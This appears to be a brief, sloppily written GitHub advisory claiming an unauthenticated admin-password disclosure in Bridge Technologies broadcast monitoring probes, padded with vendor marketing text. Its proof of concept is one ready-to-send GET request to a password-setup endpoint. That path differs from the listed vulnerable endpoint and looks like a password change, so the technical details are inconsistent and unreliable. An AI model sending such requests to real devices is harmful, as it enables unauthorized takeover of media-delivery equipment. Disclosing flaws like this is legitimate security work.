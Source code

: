 # bridgetech probes (VB220 IP Network Probe,VB120 Embedded IP + RF Probe,VB330 High-Capacity Probe, VB440 ST 2110 Production Analytics Probe , NOMAD) Information Disclosure Vulnerability

## Too lazy to write details, so here’s the description of the device from the vendor’s website
---
## Description
The Bridge probes offered in the Probe are VB220 IP Network Probe,VB120 Embedded IP + RF Probe,VB330 High-Capacity Probe, VB440 ST 2110 Production Analytics Probe , NOMA.

Bridge Technologies probes are high-end monitoring and analytics appliances engineered for broadcast, telecom, and media delivery environments. They inspect IP streams, RF links, and compressed/uncompressed media flows, assessing data integrity, transport quality, and user experience. These probes deliver deep visibility into every segment of content delivery, from source to end-user.

Centralized server software allowing unified monitoring of all deployed probes. Offers alarm aggregation, trend analysis (via microTimeline™), dashboards, Visio map integration, configuration management, user access control, reporting, and scaling from small to large deployments

Bridge Technologies is a Norwegian company based in Oslo that specializes in advanced monitoring, analysis, and quality assurance systems for digital media and telecommunications. Their solutions ensure high service quality across broadcast, cable, satellite, OTT, IPTV, and home networks, safeguarding content delivery for over 1.2 billion subscribers and thousands of channels worldwide
## Who Uses These Devices?

These solutions are primarily used by:

Broadcast and media companies (TV stations) operating studios,professional streamers, head-ends, and remote production environments.

Telecom, cable, satellite, and OTT providers ensuring service quality across networks.

Network engineers and QA teams needing real-time and historic insight into media delivery.

Remote production and field engineers deploying NOMAD in dynamic environments.

Large-scale operations .

---

## Vendor Information
- **Vendor:** bridgetech
- **Vendor Homepage:** [https://bridgetech.tv/](https://bridgetech.tv/)

---

## Affected Products
- **Product:** bridgetech probes (VB220 IP Network Probe,VB120 Embedded IP + RF Probe,VB330 High-Capacity Probe, VB440 ST 2110 Production Analytics Probe , NOMAD)


- **Built Version:** Jul 1 2025 12:43:42
- **Firmware Version:**  6.5.0-9  

---

## Vulnerable Endpoints
- `/vbc/data/rdplist`  


---

## Attack Type
- **Type:** Information Disclosure  
- **Classification:** Improper Authorization  

---

## Impact
**Severity:** High  
---
## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)
make a get requste for his endpoints

{target}/probe/core/setup/passwd?Change=1&=&passwd2=slvisolp&submitflash=OK&secs=1756630638395

this will show you the admin password


---

## PoC Video

https://github.com/user-attachments/assets/e37cb90b-4faa-4cbd-a6ee-befe77a9a664
